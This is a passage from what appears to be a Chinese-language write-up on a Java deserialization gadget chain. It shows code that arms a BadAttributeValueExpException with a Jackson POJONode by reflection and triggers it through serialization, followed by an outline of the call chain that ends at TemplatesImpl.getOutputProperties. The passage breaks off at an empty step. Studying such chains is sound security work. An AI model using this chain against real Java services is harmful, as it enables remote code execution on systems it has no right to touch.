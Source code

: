         // 4. 构造 kick-off
        BadAttributeValueExpException toBeSerBAVEException = new BadAttributeValueExpException("123");
        Field valField = toBeSerBAVEException.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(toBeSerBAVEException, jsonNodes);
    
        String serialize = SerializeUtil.serialize(toBeSerBAVEException);
        SerializeUtil.unSerialize(serialize);
    }
    ```

2. 总结一下链的大体过程：
    ```java
    /*
    	BadAttributeValueExpException.readObject()
    		POJONode[BaseJsonNode].toString()
    			Templates(Proxy).getOutputProperties()
    				JdkDynamicAopProxy.invoke()
    					AopUtils.invokeJoinpointUsingReflection()
    						templatesImpl.getOutputProperties()
    */
    ```

3. 
